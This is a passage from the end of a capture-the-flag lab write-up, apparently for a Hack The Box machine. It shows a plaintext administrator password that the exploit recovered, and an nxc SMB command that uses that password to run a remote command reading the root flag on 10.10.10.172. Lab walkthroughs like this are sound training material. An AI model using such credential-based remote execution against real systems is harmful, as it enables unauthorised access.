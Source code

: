 <figure><img src="../../../.gitbook/assets/monte_poc.png" alt=""><figcaption><p>Figure 9: Executing the exploit and obtaining the <code>administrator</code>'s credentials.</p></figcaption></figure>

Finally, we can use the `administrator`'s credentials to read the `root.txt` flag 🚩  (Figure 10).

{% code overflow="wrap" %}
```bash
# writing the password to a file
echo "d0m@in4dminyeah!" > admin_pass
# reading the root flag
nxc smb 10.10.10.172 -u administrator -p admin_pass -x 'type c:\users\administrator\desktop\root.txt'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/monte_root.png" alt=""><figcaption><p>Figure 10: Reading the root flag.</p></figcaption></figure>

[^1]: Escalation of Privileges

[^2]: Active Directory

[^3]: Proof of Concept

[^4]: Elevation of Privileges

[^5]: Elevation of Privileges

[^6]: Active Directory
